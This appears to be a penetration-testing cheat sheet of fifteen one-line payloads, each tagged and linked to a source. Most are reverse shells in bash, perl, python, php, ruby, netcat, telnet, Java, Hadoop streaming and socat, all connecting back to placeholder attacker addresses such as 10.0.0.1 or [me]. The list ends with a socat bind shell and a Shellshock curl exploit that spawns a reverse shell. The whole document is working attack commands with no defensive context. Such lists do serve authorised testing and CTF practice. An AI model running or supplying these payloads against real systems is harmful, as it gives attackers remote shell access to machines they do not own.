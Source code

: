 ### 1. bash reverse shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 2. perl reverse shell
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
**- linux,reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 3. python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**- linux,reverse shells,Windows,python**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 4. php reverse shell : php from the CLI
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**- linux,reverse shells,Windows,php**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 5. ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
**- linux,reverse shells,Windows,ruby**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 6. net cat reverse shell
```
nc -e /bin/sh 10.0.0.1 1234
```
**- linux,reverse shells,Windows**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 7. bash reverse shell using a file handle '5'
```
exec 5<>/dev/tcp/[me]/[port]; while read line 0<&5; do $line 2>&5 >&5; done
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 8. telnet reverse shell
```
rm -f /tmp/p; mknod /tmp/p p && nc [me] [port] 0/tmp/p
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 9. telnet reverse shell
```
telnet [me] [port]| /bin/bash | telnet [me] [lport]
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 10. perl windows reverse shell
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[me]:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
**- reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 11. Java reverse shell - replace ; with newline
```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()
```
**- linux,reverse shells,java**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 12. Hadoop Command execution, of course replace the shell with whatever you want
```
./bin/hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input /tmp/out/1 -output /tmp/out/NC_1 -mapper "bash -i >& /dev/tcp/[ip]/[port] 0>&1" -reducer NONE -cmdenv user.name=hdfs -cmdenv as=hdfs -verbose -mapdebug "bash -i >& /dev/tcp/[ip]/[port] 0>&1"
```
**- reverse shells**
#### References:

http://seclist.us/hadoop-attack-library-is-a-collection-of-pentest-tools-and-resources-targeting-hadoop-environments.html
__________
### 13. Socat BindShell, First on server, second on client
```
socat TCP-LISTEN:[lip],reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane; socat FILE:`tty`,raw,echo=0 TCP:[rip]:[rport]
```
**- linux,pivoting,shells**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
__________
### 14. Socat reverse shell, First on client, second on server
```
socat TCP-LISTEN:[lip],reuseaddr FILE:`tty`,raw,echo=0; socat TCP4:[rip]:[rport] EXEC:bash,pty,stderr,setsid,sigint,sane
```
**- linux,pivoting,reverse shells**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
__________
### 15. Exploit shellshock via curl, use -k switch to force curl to bypass any SSL warnings. Replace the bash command with anything.
```
curl http://192.168.123.123/path/to/cgi- bin/name_of_vuln_cgi -H "custom:() { ignored; }; /bin/bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1 "
```
**- shellshock,curl**
#### References:

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
__________
